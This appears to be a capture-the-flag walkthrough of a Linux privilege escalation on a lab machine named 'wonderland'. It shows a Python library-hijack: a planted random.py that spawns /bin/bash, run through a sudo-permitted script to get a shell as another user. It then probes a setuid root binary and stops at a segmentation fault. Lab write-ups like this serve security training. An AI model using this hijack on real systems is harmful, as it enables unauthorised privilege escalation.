 This file seems to contain a long list of text from the story wrapped by some python to randomly pick a few lines and print them out. Let's try it:

```text
alice@wonderland:~$ python3 walrus_and_the_carpenter.py
The line was:    No birds were flying over head —
The line was:    For some of us are out of breath,
The line was:    And you are very nice!"
The line was:    Their coats were brushed, their faces washed,
The line was:    And you are very nice!"
The line was:    "If this were only cleared away,"
The line was:    They thanked him much for that.
```

I notice the file doesn't have an absolute path for the first line where it imports the python module **random**. We can exploit this, and force it to load our own file instead.

We need to find a way to use this to escalate our privileges. Check users permissions:

```text
alice@wonderland:~$ sudo -l
[sudo] password for alice:
Matching Defaults entries for alice on wonderland:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alice may run the following commands on wonderland:
    (rabbit) /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```

Looks like our path is to exploit the walrus python script and run it as the rabbit user to get a shell. First we create our own file that will get run by the script:

```text
alice@wonderland:~$ cat random.py
import os
os.system("/bin/bash")
```

Now we run the script as the rabbit user:

```text
alice@wonderland:~$ sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
rabbit@wonderland:~$ sh
```

We now have a shell as rabbit, lets look in their home folder:

```text
rabbit@wonderland:~$ ls -l /home/rabbit/
total 20
-rwsr-sr-x 1 root root 16816 May 25 17:58 teaParty
```

We have a file that is owned by root, but readable by rabbit. Looks like we have another level of escalation needed. Let's see what it does:

```text
rabbit@wonderland:~$ cd /home/rabbit/
rabbit@wonderland:/home/rabbit$ ./teaParty
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by Sun, 07 Jun 2020 19:07:36 +0000
Ask very nicely, and I will give you some tea while you wait for him
please
Segmentation fault (core dumped)
```
